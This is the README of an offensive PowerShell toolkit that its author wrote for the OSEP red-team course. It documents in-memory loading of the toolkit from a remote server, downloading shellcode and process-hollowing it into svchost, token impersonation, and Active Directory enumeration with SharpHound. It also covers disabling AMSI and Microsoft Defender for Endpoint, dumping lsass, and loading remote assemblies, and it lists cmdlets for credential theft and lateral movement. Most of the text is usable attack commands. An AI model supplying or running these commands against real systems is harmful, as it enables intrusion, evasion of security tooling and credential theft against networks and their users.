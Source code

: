 # TortugaToolKit

Written during OSEP course, for learning purposes. Used heavily during the exam with much success. Thanks to all the open source projects out there that i was able to use and learn from.

## Examples

Load it

```powershell
$a=[System.Reflection.Assembly]::Load($(IWR -Uri http://yourserver/tortugatoolkit.dll -UseBasicParsing).Content);
Import-Module -Assembly $a
```

Example of remotely loading and encrypting shellcode, then performing proc hollow with it
```powershell
$code = Invoke-EncryptShellcode -shellcode $(IWR -Uri 'http://ip/shellcode.bin' -usebasicparsing).Content
INVPH -encsh $code.encryptedShellcode -k $code.encryptionKey -ivk $code.initVectorKey -pn 'svchost.exe' -Verbose
```
Example of performing ping sweep then admin check on subnet
```powershell
$s = Invoke-PingSweep -s "172.16.23.0";
foreach($h in $s){Invoke-AdminCheck -t $h}

Invoke-AdminCheck -h $(Invoke-PingSweep -s "172.16.75.0")
```
Example of impersonation via process token then running SharpView (or sharphound) as that domain user
```powershell
Show-AvailableTokens | Format-Table
Invoke-ImpersonateToken -processId 7100

Get-CurrentIdentity

Invoke-TurtleView -c "Get-DomainComputers";
Invoke-TurtleHound
```
Example of impersonating via process token then performing process hollow as the user.
```powershell
$code = Invoke-EncryptShellcode -shellcode $(IWR -Uri 'http://ip/shellcode.bin' -usebasicparsing).Content
Invoke-ImpersonateProcessHollow -processId 1092 -exe "svchost.exe" -decryptKey $code.encryptionKey -shellCode $code.encryptedShellcode -initVector $code.initVectorKey
```

Example of disabling amsi then disabling defender for endpoint and performing lsass process dump
```powershell
Disable-AyEmEsEye -Verbose
Disable-DefenderForEndpoint
Invoke-TurtleDump
Enable-DefenderForEndpint

```
Example of loading and executing a c# assembly
```powershell
Invoke-AssemblyLoader -e $false -l $false -path "http://ip/payload" -name namespace -clss targetclass -run method

```

## Cmdlets

```
Disable-AyEmEsEye
Disable-DefenderForEndpoint
Disable-Etw
Enable-DefenderForEndpoint
Enable-Privileges
Get-ActiveDirectoryComputers
Get-ActiveDirectoryForests
Get-ActiveDirectoryGroupMembership
Get-ActiveDirectoryGroups
Get-ActiveDirectoryUsers
Get-CurrentIdentity
Get-MsSQLQuery
Get-SQLInfo
Get-System
Get-TrustedInstaller
Invoke-UnhookDll
Invoke-AdminCheck
Invoke-AssemblyLoader
Invoke-ClassicInjection
Invoke-FileLessLateralMovement
Invoke-LsaSecretsDmp
Invoke-MsSQLAssembly
Invoke-MsSQLShell
Invoke-PingSweep
Invoke-ProcessHollow
Invoke-ShellcodeEncryption
Invoke-TokenStealer
Invoke-TurtleDump
Invoke-TurtleHound
Invoke-TurtleUp
Invoke-TurtleView
Invoke-ImpersonateProcessHollow
Invoke-ImpersonateToken
Show-AvailableTokens
Undo-Impersonation
```

## Credits
* https://gist.githubusercontent.com/augustoproiete/b51f29f74f5f5b2c59c39e47a8afc3a3/raw/412b018a593d977ba4d6059ac40e7cf28875becc/ReadingPortableExecutable_PE_header.cs
* https://github.com/GhostPack/SharpUp
* https://github.com/tevora-threat/SharpView
* https://github.com/BloodHoundAD/SharpHound3
* https://devblogs.microsoft.com/scripting/use-powershell-to-decrypt-lsa-secrets-from-the-registry/
* https://github.com/clymb3r/PowerShell/blob/master/Invoke-TokenManipulation/Invoke-TokenManipulation.ps1
* https://www.exploit-db.com/exploits/13054
* https://github.com/latortuga71/latortugaDump
* https://github.com/b4rtik/ATPMiniDump
* https://www.matteomalvica.com/blog/2019/12/02/win-defender-atp-cred-bypass/
* https://github.com/cobbr/SharpSploit
* https://medium.com/csis-techblog/silencing-microsoft-defender-for-endpoint-using-firewall-rules-3839a8bf8d18
* https://0x00-0x00.github.io/research/2018/10/21/Windows-API-And-Impersonation-Part-2.html
* https://github.com/latortuga71/DisableDefenderForEndpointPOC
* https://institute.sektor7.net/
* https://www.mike-gualtieri.com/posts/red-team-tradecraft-loading-encrypted-c-sharp-assemblies-in-memory
* https://dotnetninja.net/2020/03/creating-a-powershell-cmdlet-in-c/
* https://king-sabri.net/how-to-compile-embed-and-use-sharpsploit/
* https://www.tiraniddo.dev/2017/08/the-art-of-becoming-trustedinstaller.html
* https://www.codeproject.com/articles/18102/howto-almost-everything-in-active-directory-via-c
* https://www.offensive-security.com/pen300-osep/
* https://github.com/Mr-Un1k0d3r/SCShell

## Unlicense

```
This is free and unencumbered software released into the public domain.


Anyone is free to copy, modify, publish, use, compile, sell, or
distribute this software, either in source code form or as a compiled
binary, for any purpose, commercial or non-commercial, and by any
means.


In jurisdictions that recognize copyright laws, the author or authors
of this software dedicate any and all copyright interest in the
software to the public domain. We make this dedication for the benefit
of the public at large and to the detriment of our heirs and
successors. We intend this dedication to be an overt act of
relinquishment in perpetuity of all present and future rights to this
software under copyright law.


THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND,
EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF
MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT.
IN NO EVENT SHALL THE AUTHORS BE LIABLE FOR ANY CLAIM, DAMAGES OR
OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE,
ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR
OTHER DEALINGS IN THE SOFTWARE.

```

For more information, please refer to <http://unlicense.org/>
